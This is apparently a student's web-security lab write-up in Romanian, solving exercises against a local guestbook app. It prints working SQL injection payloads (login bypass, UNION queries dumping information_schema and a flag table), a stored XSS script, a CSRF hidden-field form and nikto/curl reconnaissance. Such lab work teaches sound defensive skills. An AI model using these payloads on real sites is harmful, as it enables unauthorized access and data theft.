 Student: Margineanu Vladut
Grupa: 341 C2

						Laborator 8

	Cerinta 1

 Serverul ruleaza direct un query. Cu urmatorul SQL injection (cu stringurile date la login):
```SQL
 SELECT * FROM tabela WHERE username=<user> AND PASSWORD=<passwd> LIMIT 	1
```
```SQL
 SELECT * FROM tabela WHERE username='' OR 1=1 -- ' AND PASSWORD=<passwd>
```
Comment:  username este string care se evalueaza la true: 
	```SQL
	' ' OR 1=1 -- ' fac ca restul comenzii, pana la ' sa fie comentat
	```

	Cerinta 2
	
```SQL
 SELECT col1, col2... FROM tablename WHERE name='' UNION (SELECT 1, 2, ...)  -- bruteforce the number of columns! '
```

 1. Incercam sa ne logam cu:
```SQL
  ' or 1 order by 1,2,3,4,5,6,7,8,9,10 -- x
```
 - se observa eroarea la coloana 5 => avem 4 coloane

 2. Ne logam cu:
 ```SQL
  ' union select 1, 2, 3, group_concat(table_name separator ',') from information_schema.tables where table_schema='guestbook' -- x
  ```
 - se observa ca avem tabelele: entries, flags, users

 3. Aflam care e coloana cu flag-ul:
 ```SQL
 ' union select 1, 2, 3, group_concat(column_name separator ',') from information_schema.columns where table_schema='guestbook' and table_name='flags' -- x
 ```

 4. Selectam flagul din tabela.
 ```SQL
 ' union select 1, 2, 3, flag from guestbook.flags -- x
 ```

 Se obtine flag-ul: SpeishFlag{th1sw4sSQL1nj3cti0n}!

	Cerinta 3

 Mesajele scrise in chenarul din server sunt interpretate ca HTML. 
 Orice script e bagat in HTML si executat. Asadar, mesajul contine:
 
```jsp
 <script>
 alert("Arafat!");
 </script> 
```
-  genereaza un "dialog box" in care scrie "Arafat!"

	Cerinta 4

 Form al guestbook-ului:
 ```jsp
<form method="post" action="/guestbook/post">
  <p>
    <div><label for="message">Message:</label></div>
    <textarea id="message" name="message" rows="3" cols="80"></textarea>
  </p>
  <p>
    <input type="submit" value="Send">
  </p>
</form>
```

 L-am refactorizat local:
 ```jsp
<form method="post" action="http://localhost:8080/guestbook/post">
  <p>
    <label>Boss:</label>
    <input type="hidden" id="message" name="message" value="Voucher 2021">
  </p>
  <p>
    <input type="submit" value="Click Here!">
  </p>
</form>
```

	Cerinta 5
 - cu utilitarul nikto, am scanat server-ul si am gasit fisierul server.js. 
 - l-am descarcat cu comanda curl si l-am adaugat in arhiva

 




